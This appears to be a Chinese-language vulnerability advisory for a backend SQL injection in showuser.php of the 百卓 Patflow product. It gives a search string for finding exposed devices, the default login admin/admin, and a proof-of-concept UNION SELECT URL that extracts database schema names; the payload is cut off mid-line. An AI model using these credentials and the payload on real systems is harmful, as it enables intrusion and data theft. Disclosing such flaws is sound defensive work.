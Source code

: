 # 百卓 Patflow showuser.php 后台SQL注入漏洞

# 百卓 Patflow showuser.php 后台SQL注入漏洞

## 漏洞描述

百卓 Patflow showuser.php文件参数过滤不充分，导致后台存在SQL注入漏洞

## 漏洞影响

```
百卓 Patflow
```

## 网络测绘

```
"Patflow"
```

## 漏洞复现

登录页面

![image-20220519183747439](/images/202205191837588.png)

默认口令登录后台 admin/admin

存在漏洞的文件为 shwouser.php,验证POC为

```
/user/showuser.php?id=1%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,(select%20group_concat(SCHEMA_NAME)%20f
```

![image-20220519183758066](/images/202205191837110.png)

